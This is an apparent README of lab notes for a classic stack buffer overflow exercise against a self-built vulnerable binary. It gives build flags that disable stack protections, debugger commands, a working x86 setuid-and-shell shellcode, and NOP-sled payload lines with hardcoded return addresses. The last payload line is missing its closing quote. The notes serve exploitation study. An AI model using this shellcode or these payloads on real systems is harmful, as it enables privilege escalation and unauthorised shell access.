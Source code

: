 # zataoh
Zen and the Art of Hacking

Build:
gcc -g -z execstack -no-pie -o vuln vuln.c

buffer lives in between esp and ebp

info registers
x/30x $esp

Run:
./envexec.sh vuln $(python ...)

Test if shellcode is working:
(Update test_shellcode with the shellcode you are testing)

Compile test_shellcode.c
gcc -m32 -z execstack test_shellcode.c -o test_shell
./test_shellcode

Shellcode (works):
'\x31\xc0\x89\xc3\xb0\x17\xcd\x80\x31\xd2\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x52\x53\x89\xe1\x8d\x42\x0b\xcd\x80'

Buffer Size: 100
./envexec.sh vuln $(python -c 'print "\x90" * 76 + "\x31\xc0\x89\xc3\xb0\x17\xcd\x80\x31\xd2\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x52\x53\x89\xe1\x8d\x42\x0b\xcd\x80" + "\x60\xfd\xff\xbf"')

Buffer size: 500
$(python -c 'print "\x90" * 476 + "\x31\xc0\x89\xc3\xb0\x17\xcd\x80\x31\xd2\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x52\x53\x89\xe1\x8d\x42\x0b\xcd\x80" + "\x30\xfa\xff\xbf")

